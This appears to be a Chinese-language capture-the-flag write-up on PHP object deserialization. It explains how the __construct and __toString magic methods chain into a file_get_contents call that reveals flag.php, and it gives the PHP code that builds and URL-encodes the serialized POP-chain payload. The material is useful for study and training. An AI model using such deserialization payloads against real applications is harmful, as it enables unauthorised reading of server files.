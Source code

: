 ```php
?>
```

一看就是反序列化,我们看到\__construct()和 __toString()两个魔法函数，其中我们需要利用到ace类中的file_get_contents()函数，显示出我们的flag.php的内容。

所以我们构造pop链

```php
<?php
class acp 
{   
    protected $cinder;  

    function __construct() 
    {      
        $this->cinder = new ace();//将new pkshow(),改为new ace()
    }  
    function __toString()      
    {          
        if (isset($this->cinder))  
            return $this->cinder->echo_name();      
    }  
} 
class ace
{    
    public $filename='flag.php';  //给filename赋值flag.php   
    public $openstack;
    public $docker; 
    /*function __constuct(){
        $this->docker=unserialize($docker);
    }*/
    function echo_name()      
    {   
        $this->openstack = unserialize($this->docker);
        //为了绕过后面的判断，我们将两个指针指向同一个变量，这样就可以达到相同。
        $this->openstack->neutron = $heat;
        $this->openstack->nova=$heat;
        if($this->openstack->neutron === $this->openstack->nova)
        {
        $file = "./{$this->filename}";
            if (file_get_contents($file))         
            {              
                return file_get_contents($file); 
            }  
            else 
            { 
                return "keystone lost~"; 
            }    
        }
    } 
}
$a=new acp();
echo urlencode(serialize($a))

?>
```
